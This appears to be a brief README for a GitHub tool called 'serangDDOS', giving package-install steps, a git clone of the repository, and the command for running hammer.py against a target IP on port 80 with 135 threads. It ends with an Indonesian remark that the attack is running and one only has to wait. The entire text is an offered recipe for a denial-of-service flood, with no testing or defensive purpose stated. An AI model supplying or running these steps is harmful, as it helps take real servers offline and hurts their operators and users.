 # serangDDOS
$ pkg update && pkg upgrade
$ pkg install python && pkg install python2
$ git clone http://github.com/wafikhasbi/serangDDOS
$ ls
$ cd serangDDOS
$ python hammer.py
$ python3 hammer.py -s (IP target) -p (80) -t (135)
# hammer sudah bekerja tinggal nunggu
